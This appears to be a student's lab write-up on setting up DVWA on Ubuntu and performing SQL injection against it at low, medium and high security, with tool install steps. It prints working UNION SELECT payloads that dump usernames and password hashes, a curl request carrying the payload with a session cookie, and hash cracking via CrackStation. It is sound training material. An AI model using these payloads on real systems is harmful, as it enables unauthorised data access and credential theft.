# FUTURE_CS_01
---
# WEB APPLICATION SECURITY TESTING (TASK 01)
---
## Step by step with guidelines and procedures 
Task: Conducting a security test on a sample web application to identify vunerabilities like SQL Injection, XSS and authentication flaws.
Skills Gained: Web application security, ethical hacking, penetration testing.
Tools: OWASP ZAP, Burp suite, SQL Map.

**Prerequisites**
- Ubuntu VM (already set up)
- Internet connection to download tools
- Basic terminal knowledge

Since i already have Ubuntu VM, lets update my packages

## Step 1: Install Required Tools
Open a terminal and run these commands:

Code(terminal) - `sudo apt update && sudo apt upgrade -y`

If you already have python, theres not need for this step (down imogi)

Install Python and pip (required for many tools) - `sudo apt install python3 python3-pip -y`

Install Git (for cloning repositories) - `sudo apt install git -y`

Install OWASP ZAP - `sudo snap install zaproxy --classic`

**Note**: I am running snap intall zaproxy because i am using UBUNTU and --classic beacuse i need the access

Install sqlmap - `sudo apt install sqlmap -y`

Install Burp Suite Community Edition - `wget "https://portswigger.net/burp/releases/download?product=community&version=2023.12.4&type=Linux" -O burpsuite.sh`

`chmod +x burpsuite.sh`

`./burpsuite.sh`

## Step 2: Set Up a Sample Vulnerable Web App

For testing purposes, we'll use DVWA (Damn Vulnerable Web Application):

- Install LAMP stack (Linux, Apache, MySQL, PHP)
`sudo apt install apache2 mysql-server php libapache2-mod-php php-mysql -y`

- Download DVWA

`cd /var/www/html`

`sudo git clone https://github.com/digininja/DVWA.git`

`sudo chown -R www-data:www-data DVWA`

`sudo chmod -R 755 DVWA`

- Configure MySQL

`sudo mysql_secure_installation` (Follow prompts to set root password and secure installation)

- Create DVWA database
`sudo mysql -u root -p`

- In MySQL prompt:
  
CREATE DATABASE dvwa;

CREATE USER 'dvwa'@'localhost' IDENTIFIED BY 'p@ssw0rd';

GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwa'@'localhost';

FLUSH PRIVILEGES;

exit

- Configure DVWA

`cd DVWA/config`

`sudo cp config.inc.php.dist config.inc.php`

`sudo nano config.inc.php`

Update these values:

`$_DVWA['db_user'] = 'dvwa';`

`$_DVWA['db_password'] = 'p@ssw0rd';`

`$_DVWA['db_database'] = 'dvwa';`

- Now lets restart Apache
`sudo systemctl restart apache2`

**we now access DVWA at `http://localhost/DVWA` in our browser. Login with admin/password.**

##Now Lets Do some cracking and Hacking(imoji)

First lets set the **SECURITY LEVEL** to **LOW**

DVWA Security → Set to Low.

---

# Some Basic SQLi (DVWA Security: Low)

The objective of this is to bypass the login and extract some database information like  the usernames and their respective password(imoji wink).

- Step 1: Finding the Vulnerable Input
 
Navigate to "SQL Injection" in DVWA on the left half screen because we're doing sqli

You'll see a form asking for User ID.

- Step 2: We will test for Vulnerability (with inputs like ',1', 1' OR '1'='1)

Enter: `1' OR '1'='1` (in the user ID form) and click submit

It returns all users because the query becomes: `SELECT * FROM users WHERE user_id = '1' OR '1'='1';` which is always true and returns all data.

- step 3: We try to extract the database information by finding the number of columms

We use **ORDER BY** to determine the number of ||s

We enter this ``1' ORDER BY 1-- -`` it displays true with the columns 

We enter this ``1' ORDER BY 2-- -`` it also displays true with the columns

now when we enter `1' ORDER BY 3-- -`, it fails or we get an error. Which mean we only have 2 columns not 3. This helps us in our next stage

- We extract the data using the UNION SELECT
  
  Since we only have 2 columns, we run -> `1' UNION SELECT 1,2-- -`

  Which displays the output of the columns 1 and 2

- Lets get the Database Name -> enter this -> `1' UNION SELECT 1,database()-- -`

the output should be **dvwa** which is the current database

Now for the big gun 

Lets get all the tables in the Databse(dvwa)

Enter -> `1' UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='dvwa'-- -`

Output/result should be lists of the tables

users

guestbook

...

### Finally Lets dump the usernames and the passwords

Enter -> `1' UNION SELECT user,password FROM users-- -`

It returns all the usernames and the **MD5 hash** which we crackk to get the passwords



we crack hashes using `https://crackstation.net/` (CrackStation)



First name: gordonb

Surname: e99a18c428cb38d5f260853678922e03

Cracked: abc123




---

# SQL Injection on DVWA Medium Security

Key Differences in Medium Security and the Low is 

DVWA's medium security uses dropdown menus instead of text inputs

Input is sanitized slightly (but still vulnerable)

Requires manual request tampering using Burp Suite or browser tools.

- For this lets use the browser tools

-Step uno: We sep up the DVWA Security level:

Log in as admin -> Go to DVWA Security -> set to **Medium**

Now lets navigate to SQL Injection which now will show a dropdown menu.

### Our Exploitation method this time is Using the Browser DevTools

1. open Developer Tools -> F12
2. We now look for the dropdown element:
   - Right click the dropdown and choose **Inspect Element**
   - Locate the `<select>` tag and we edit its HTML

3. Right-click the `<select>...</select>` block → Choose "Edit as HTML"
   - Replace the entire dropdown code with -> `<input type="text" name="id" value="1">` which changes the dropdown form to an input field

      
     
   - Click outside the edit or press enter
  
5. Lets execute the SQL Injection
   - with the page now showing a text box, we enter the payload `1' OR '1'='1`
     
   - If it doesnt work we try `1 OR 1=1` without the quotes for the numeric fields
  
   - Determine colums: `1' UNION SELECT 1,2-- -`
     
  
   - Extract passwords: `1' UNION SELECT user,password FROM users-- -`
   
   - Returns all usernames and hashes which are the passwords
     
   - we crack the hashes, we get our passwords

    
First name: pablo

Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

letmein -> Crackstation

5. We login with pablo/letmein

---

# SQL Injection on High Security
- Step 1: Prepation
  Set DVWA Security level to High and navigate to **SQL Injection**

**Method** : Cookie Tampering and Manual SQLi

Prerequisites are 
- DVWA Security set to **High**
- Browser (Firefox or Chrome)
- and a valid `PHPSESSID` cookie which we ll obtain after login

- Step 1: Login and set security to High and navigate to SQL injestion
- we see that the submission form is now driven by a JavaScript



- Open Developer tools -> F12
- Go to network tab
- Back to page and click the **here to change your ID**
- a pop up page form appears, input 1 and submit
- We observe the request goes though

  

- Since that works, lets craft a malicious url
  `http://localhost/DVWA/vulnerabilities/sqli/?id=1' UNION SELECT user,password FROM users-- -`

- In the request page, we type `1' UNION SELECT user,password FROM users-- -` and submit

- We observe that the page displays of the usernames and the hash



- Crack **Hash** to get password

curl -s -G \
--cookie "PHPSESSID=kemqe0e3qhltqdddoelp0ssv1i; security=high" \
"http://localhost/DVWA/vulnerabilities/sqli/?id=1' UNION SELECT user,password FROM users-- -" \
| grep -oP '<pre>.*?</pre>'
